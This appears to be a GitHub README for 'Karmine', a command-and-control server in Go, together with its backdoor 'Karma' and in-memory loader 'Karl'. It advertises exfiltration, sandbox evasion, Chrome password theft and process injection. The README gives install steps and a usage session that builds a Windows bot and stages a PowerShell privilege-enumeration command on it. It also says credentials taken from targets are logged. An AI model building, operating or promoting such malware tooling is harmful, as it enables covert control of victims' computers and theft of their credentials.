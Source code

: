 # Karmine

Karmine is a C2 server written in Go. It handles requests from a bot/backdoor ('Karma'), which has built-in dropping, exfiltration and anti-analysis / sandboxing features. All communication happens over mTLS, with transferred objects AES-encrypted to avoid detection. Karma instances are run using a loader, 'Karl', which reads encrypted PEs written to disk, decrypts and runs them in memory.

## Setup 

1. Run `install.sh` in the project root. This will set up configuration files, the `bin`, a x509 certificate-key pair, and a database. You can replace these with your own by replacing the ones in `~/.kdots/` with files of the same name.

## Usage 

### Example

```
$  new karma --os windows --interval 3
'karma' saved to /home/pygrum/karmine/bin


$  profiles view

uuid                                 | name         | strain
------------------------------------------------------------
181d70e4-cbc6-4bfd-9e96-7ccb31dbbc27 | 3a89aee34882 | karma

$  stage cmd --for 3a89aee34882 exec "powershell -c whoami /priv"
$  % 3a89aee34882 %  127.0.0.1:1337 ---
INFO[1139] exec powershell -c whoami /priv               type=cmd
INFO[1139] 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

The Karmine database logs all staged commands, active strains, and credentials from targets. In-built commands can be used to view this information.

### Commands

As of March 15 2023, there are 3 commands:
- `new`
- `profiles`
- `stage`

To get usage info about these commands, type `<command> --help`

## Karma

Karma is a bot with backdoor functionality, capable of executing shell commands, stealing chrome passwords, and injecting remote binaries into legitimate system processes. It communicates over a secure mTLS connection, and supports threaded processing and execution of commands. 
